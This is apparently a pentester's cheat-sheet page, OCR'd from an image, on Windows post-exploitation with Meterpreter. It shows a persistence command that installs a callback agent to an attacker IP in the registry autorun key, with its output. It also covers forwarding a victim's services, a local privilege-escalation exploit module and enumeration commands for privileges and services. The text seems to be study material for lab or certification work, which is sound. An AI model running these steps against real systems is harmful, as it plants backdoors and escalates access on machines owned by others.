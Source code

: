 **Maintaining Access with Meterpreter:**  
[https://www.offensive-security.com/metasploit-unleashed/maintaining-access/](https://www.offensive-security.com/metasploit-unleashed/maintaining-access/)

**meterpreter>** run persistence -U -i 5 -p 443 -r <Attacking Machine IP>
**[*]** Creating a **persistent** agent: **LHOST**=<Attacking Machine IP> **LPORT**=443 (interval=5 onboot=true)
**[*]** **Persistent** agent script is 613976 bytes long
**[*]** Uploaded the **persistent** agent to **C:\WINDOWS\TEMP\yyPSPPEn.vbs**
**[*]** Agent executed with **PID 492**
**[*]** **Installing** **into autorun** as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*]** **Installed** **into** **autorun** as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*]** For **cleanup** use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
**meterpreter>**
**meterpreter>** **reboot** 
Rebooting... 
**meterpreter>** **exit** 
**meterpreter>** **sysinfo**
Computer: XEN-XP-SP2-BARE
OS      : Windows XP (Build 2600, Service Pack 2).
Arch    : x86
Language: en_US
**meterpreter>**

+  **Forward out a  _vulnerable_  _service_  with meterpreter.**  
**meterpreter>**  portfwd add -l <Attacker PORT> -p <Victim PORT> -r <Victim IP>  
**meterpreter>**  portfwd add -l 3306 -p 3306 -r <Victim IP>  
**$** rdesktop 0.0.0.0  
  
+  **Dude just do this with your meterpreter shell - trust S1REN.**  
use exploit/windows/local/service_permissions

+  **Payloads**  
**-->**  Checkbox target machine's  **file arch**  (x86, x64).  
**-->**  Checkbox target machine for  _**staged**_  OR  _**non-staged**_  payloads..  
  
+  **Execute a Powershell Script.**  
powershell.exe 'C:\Tools\**privesc.ps1**'  
  
+  **I need to enumerate out the System Information.**  
_**Save this info**_  - it can be utilized with other windows privesc checking tools (based on installed patches, OS Versioning, etc)  
systeminfo  
  
+  **Who am I?**  
whoami  
echo %username%

+  **Privileges**  
whoami /priv  
  
+  **List out Services.**  
wmic service get name,startname  
  